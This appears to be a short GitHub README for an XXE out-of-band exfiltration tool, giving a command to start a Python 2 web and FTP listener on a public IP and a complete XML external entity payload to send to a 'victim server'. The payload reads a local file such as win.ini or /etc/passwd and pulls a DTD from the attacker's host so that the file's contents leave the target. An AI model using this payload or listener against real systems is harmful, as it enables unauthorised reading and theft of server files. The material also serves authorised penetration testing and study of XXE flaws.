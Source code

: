 # xxe-ftp-server
xxe oob receive file via web and ftp server



### Step 1:

**run script:**

```bash
python2 xxe-ftp-server.py public-ip-address web-port ftp-port
```

such as:

```
python2 xxe-ftp-server.py 1.1.1.1 80 2121
```



### Step 2:

**send xxe payload to victim server:**

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE data [
  <!ENTITY % file SYSTEM "file:///c:/windows/win.ini">
  <!ENTITY % dtd SYSTEM "http://1.1.1.1:80/data.dtd"> %dtd;
]>
<data>&send;</data>
```



`c:/windows/win.ini` is read file path，such as `etc/passwd`

`1.1.1.1:80` is `public-server-ip and web-bind-port`

